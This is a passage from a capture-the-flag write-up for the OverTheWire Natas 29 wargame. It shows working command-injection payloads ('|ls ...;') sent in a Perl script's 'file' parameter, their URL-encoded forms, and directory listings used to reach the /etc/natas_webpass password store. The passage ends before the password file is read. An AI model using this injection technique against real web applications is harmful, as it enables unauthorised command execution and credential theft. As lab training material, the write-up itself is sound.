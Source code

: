 Looks promising. Keep forward.  
```bash
|ls ../../;
```
The url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%3B
```

```text
html natas
```

Looks like the next directory will be a www, or var. Let's find out:  

```bash
|ls ../../../;
```
The url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%3B3B
```

```text
backups cache crash lib local lock log mail opt run snap spool tmp www
```

Another time...  
```bash
|ls ../../../../;
```

```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%3B
```

```text
bin boot dev etc home lib lib32 lib64 libx32 lost+found media mnt natas33 opt proc root run sbin snap srv sys tmp usr var
```

Okay, so we're at '/' finally. Let's dive into 'etc'

```bash
|ls ../../../../etc/;
```
The url encoded looks like this:  
```text
http://natas29.natas.labs.overthewire.org/index.pl?file=%7Cls%20%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%3B
```

We get a lot of content outputted here. The most important us is the following part:    

```text
natas_pass natas_session_toucher natas_webpass needrestart netconfig
```
Let's progress into 'natas_webpass':  
```bash
|ls ../../../../etc/natas_webpass/;
```
The encoded url looks like this:  
